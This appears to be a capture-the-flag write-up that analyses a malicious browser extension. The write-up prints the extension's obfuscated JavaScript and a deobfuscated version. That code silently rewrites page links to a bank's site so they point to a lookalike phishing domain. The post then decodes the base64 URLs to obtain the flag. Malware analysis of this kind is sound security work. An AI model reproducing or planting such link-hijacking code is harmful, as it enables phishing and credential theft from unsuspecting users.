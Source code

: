 # ICS CTF 2024 - Extend Your Stay 2

**Title:** Extend Your Stay - 2
**Description:** Along with protecting internet users from rodents, this extension (same extension as `Extend Your Stay - 1` seems to hijack links to a particular site and redirect them to a forgery with a similar-looking URL controlled by the developers. What is the URL of the site that links get redirected to?  
  
_Flag format: URL. Example: **[http://www.example.com](http://www.example.com/)**_

**File:** [no_more_rodents.crx](https://github.com/xtasy94/CTFW/blob/main/ICS%20CTF%202024/Extend%20Your%20Stay/Files_1_and_2/no_more_rodents.crx)
## Solution:

Looking at the [background.js](https://github.com/xtasy94/CTFW/blob/main/ICS%20CTF%202024/Extend%20Your%20Stay/Files_1_and_2/background.js) file, we see this obfuscated javascript code:
```javascript
    var _0x4808c5=_0x4d65;function _0x4d65(_0x1ac046,_0xdb813f){var _0x42de99=_0x42de();return _0x4d65=function(_0x4d65e4,_0x2bb8e7){_0x4d65e4=_0x4d65e4-0xb3;var _0x3d9dce=_0x42de99[_0x4d65e4];return _0x3d9dce;},_0x4d65(_0x1ac046,_0xdb813f);}(function(_0xad6f15,_0x121327){var _0xc7839f=_0x4d65,_0x5a0ac3=_0xad6f15();while(!![]){try{var _0x8cad1a=-parseInt(_0xc7839f(0xbc))/0x1*(parseInt(_0xc7839f(0xba))/0x2)+-parseInt(_0xc7839f(0xb6))/0x3*(parseInt(_0xc7839f(0xb9))/0x4)+-parseInt(_0xc7839f(0xb7))/0x5+parseInt(_0xc7839f(0xb5))/0x6+parseInt(_0xc7839f(0xbb))/0x7*(parseInt(_0xc7839f(0xb8))/0x8)+parseInt(_0xc7839f(0xb4))/0x9*(-parseInt(_0xc7839f(0xbe))/0xa)+parseInt(_0xc7839f(0xc0))/0xb*(parseInt(_0xc7839f(0xb3))/0xc);if(_0x8cad1a===_0x121327)break;else _0x5a0ac3['push'](_0x5a0ac3['shift']());}catch(_0x1ba48e){_0x5a0ac3['push'](_0x5a0ac3['shift']());}}}(_0x42de,0x583a6));function _0x42de(){var _0x2b65ad=['href','8856cNMCoO','32787TKstXc','540444COUjiw','1317BdQCgn','2249910WgEroQ','7640EMFxQu','3124SVgnKu','2XPDNHL','3073UIRrAf','628931indBOZ','length','10AaewyR','includes','19041ygvqPQ'];_0x42de=function(){return _0x2b65ad;};return _0x42de();}var rodents=document['getElementsByTagName']('a');for(var i=0x0;i<rodents[_0x4808c5(0xbd)];i++){rodents[i][_0x4808c5(0xc1)][_0x4808c5(0xbf)](atob('aHR0cHM6Ly93d3cud2VsbHNmYXJnby5jb20v'))&&(rodents[i][_0x4808c5(0xc1)]=atob('aHR0cHM6Ly93d3cuZmVsbHN3YXJnby5jb20v'));}
```

I used an online deobfuscator called [deobfuscate.io](https://obf-io.deobfuscate.io/) to deobfuscate it, and this is the output we get:

```javascript
var _0x4808c5 = _0x4d65;
function _0x4d65(_0x1ac046, _0xdb813f) {
  var _0x42de99 = _0x42de();
  _0x4d65 = function (_0x4d65e4, _0x2bb8e7) {
    _0x4d65e4 = _0x4d65e4 - 0xb3;
    var _0x3d9dce = _0x42de99[_0x4d65e4];
    return _0x3d9dce;
  };
  return _0x4d65(_0x1ac046, _0xdb813f);
}
(function (_0xad6f15, _0x121327) {
  var _0xc7839f = _0x4d65;
  var _0x5a0ac3 = _0xad6f15();
  while (true) {
    try {
      var _0x8cad1a = -parseInt(_0xc7839f(0xbc)) / 0x1 * (parseInt(_0xc7839f(0xba)) / 0x2) + -parseInt(_0xc7839f(0xb6)) / 0x3 * (parseInt(_0xc7839f(0xb9)) / 0x4) + -parseInt(_0xc7839f(0xb7)) / 0x5 + parseInt(_0xc7839f(0xb5)) / 0x6 + parseInt(_0xc7839f(0xbb)) / 0x7 * (parseInt(_0xc7839f(0xb8)) / 0x8) + parseInt(_0xc7839f(0xb4)) / 0x9 * (-parseInt(_0xc7839f(0xbe)) / 0xa) + parseInt(_0xc7839f(0xc0)) / 0xb * (parseInt(_0xc7839f(0xb3)) / 0xc);
      if (_0x8cad1a === _0x121327) {
        break;
      } else {
        _0x5a0ac3.push(_0x5a0ac3.shift());
      }
    } catch (_0x1ba48e) {
      _0x5a0ac3.push(_0x5a0ac3.shift());
    }
  }
})(_0x42de, 0x583a6);
function _0x42de() {
  var _0x2b65ad = ['href', '8856cNMCoO', '32787TKstXc', '540444COUjiw', '1317BdQCgn', '2249910WgEroQ', '7640EMFxQu', '3124SVgnKu', '2XPDNHL', '3073UIRrAf', '628931indBOZ', 'length', '10AaewyR', 'includes', '19041ygvqPQ'];
  _0x42de = function () {
    return _0x2b65ad;
  };
  return _0x42de();
}
var rodents = document.getElementsByTagName('a');
for (var i = 0x0; i < rodents[_0x4808c5(0xbd)]; i++) {
  if (rodents[i][_0x4808c5(0xc1)][_0x4808c5(0xbf)](atob('aHR0cHM6Ly93d3cud2VsbHNmYXJnby5jb20v'))) {
    rodents[i][_0x4808c5(0xc1)] = atob('aHR0cHM6Ly93d3cuZmVsbHN3YXJnby5jb20v');
  }
}
```

Straight up we see two base64 strings: `aHR0cHM6Ly93d3cud2VsbHNmYXJnby5jb20v` and `aHR0cHM6Ly93d3cuZmVsbHN3YXJnby5jb20v`, 

In plain terms, this code is checking if a property of each `rodents` array item contains the URL `"aHR0cHM6Ly93d3cud2VsbHNmYXJnby5jb20v"`. If it does, it replaces that URL with `"aHR0cHM6Ly93d3cuZmVsbHN3YXJnby5jb20v"`, decoding these, we get:

```bash
$ echo "aHR0cHM6Ly93d3cud2VsbHNmYXJnby5jb20v" | base64 -d
https://www.wellsfargo.com/
```
and
```bash
$ echo "aHR0cHM6Ly93d3cuZmVsbHN3YXJnby5jb20v" | base64 -d
https://www.fellswargo.com/
```

And that's our flag: `https://www.fellswargo.com`


